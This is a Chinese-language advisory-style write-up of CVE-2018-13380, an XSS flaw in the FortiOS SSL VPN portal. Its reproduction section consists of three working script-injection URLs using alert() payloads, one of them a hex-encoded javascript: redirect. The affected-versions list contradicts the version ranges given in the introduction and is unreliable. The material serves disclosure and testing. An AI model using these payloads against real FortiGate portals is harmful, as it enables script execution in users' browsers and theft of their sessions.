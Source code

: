 # （CVE-2018-13380）Fortinet FortiOS xss漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2946](https://www.zhihuifly.com/t/topic/2946)

# （CVE-2018-13380）Fortinet FortiOS xss漏洞

## 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中的SSL VPN Web门户存在跨站脚本漏洞。该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

## 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

## 三、复现过程

```
http://www.0-sec.org/remote/error?errmsg=ABABAB--%3E%3Cscript%3Ealert(1)%3C/script%3E 
```

```
http://www.0-sec.org/remote/loginredir?redir=6a6176617363726970743a616c65727428646f63756d656e742e646f6d61696e29 
```

```
http://www.0-sec.org/message?title=x&msg=%26%23<svg/onload=alert(1)>; 
```